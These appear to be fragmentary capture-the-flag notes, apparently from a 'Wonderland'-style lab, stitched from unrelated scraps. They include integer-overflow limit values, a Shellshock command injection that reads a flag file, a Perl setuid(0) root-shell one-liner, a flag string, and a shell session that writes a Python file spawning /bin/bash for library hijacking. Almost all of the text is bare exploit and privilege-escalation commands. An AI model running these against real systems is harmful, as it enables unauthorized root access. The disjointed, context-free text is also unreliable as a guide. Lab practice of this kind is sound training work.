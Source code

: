 4294967295
2147483647
env x='() { :;}; /bin/cat flag' bash -c ./shellshock:
perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/bash";'
WhyIsARavenLike_WritingDesk?

alice@wonderland:~$ cd /home/alice/
alice@wonderland:~$ cat > random.py << EOF
import os
os.system("/bin/bash")
EOF
